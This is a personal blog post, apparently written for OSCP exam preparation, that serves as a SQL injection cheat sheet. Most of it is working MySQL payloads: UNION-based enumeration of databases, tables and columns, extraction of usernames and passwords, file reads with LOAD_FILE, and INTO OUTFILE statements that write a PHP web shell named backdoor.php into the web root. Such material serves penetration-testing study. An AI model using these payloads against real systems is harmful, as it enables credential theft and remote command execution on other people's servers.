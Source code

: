 ```yaml
---
layout: single
title:  "OSCP Prep - SQL Injection Cheat Sheet"
date:   2020-09-23
excerpt: "My cheat sheet for manually discovering and exploiting SQL injection vulnerabilities."
categories:
  - oscp prep
  - infosec
tags:
  - sql injection
---
```


### Before you start

* Make sure to tell the differnence between numeric and string-based SQL Injection!
* Try both `'`, `"` quotes for string prefixes for string based injection.
* Try both `--` and `#` for suffixes in all injections. 
* Do simple subtraction for numeric based injection.

### Count enumerable columns

```mysql
' ORDER BY 1;-- 
```

### Render data from the database onto the webpage

```mysql
' UNION ALL SELECT 1,2;-- 
```

### List all databases

The techniques below demonstrates how to smuggle multiple returned fields into
a single row since the application may limit the amount of rows rendered. This
technique is also limited to 1024 characters, so be aware of that.

```mysql
' UNION ALL SELECT (SELECT GROUP_CONCAT(schema_name SEPARATOR ', ') from information_schema.schemata),2;-- 
```

### List all tables for a particular database

```mysql
' UNION ALL SELECT (SELECT GROUP_CONCAT(table_name SEPARATOR ', ') from information_schema.columns where table_schema = 'somedatabase'),2;-- 
```

### Get columns for a particular table

```mysql
' UNION ALL SELECT (SELECT GROUP_CONCAT(column_name SEPARATOR ', ') from information_schema.columns where table_schema = 'somedatabase' and table_name = 'sometable'),2;-- 
```

### Get username and password in a single row

```mysql
' UNION ALL SELECT CONCAT(col1,';',col2) from sometable.somecolumn),NULL;-- 
```

### Check if you can read a file

TIP: If you cannot find the web root, then you can try to write to a web root
that you think exists and write a PHP info file to get more information about
the web server. On Apache, sometimes the default PHP file can be phpinfo.php
under the web root.

Common web roots are /var/www and /var/www html.

```mysql
' UNION ALL SELECT LOAD_FILE('/var/www/html/index.html'),NULL;--
```

### Write to a file

This will only work when the database
and webserver are on the same host and the database has permission to write to
the web root!

```mysql
' UNION ALL SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE "/opt/lampp/htdocs/backdoor.php";--
' UNION ALL SELECT (SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE "/opt/lampp/htdocs/backdoor.php"),NULL;--
```
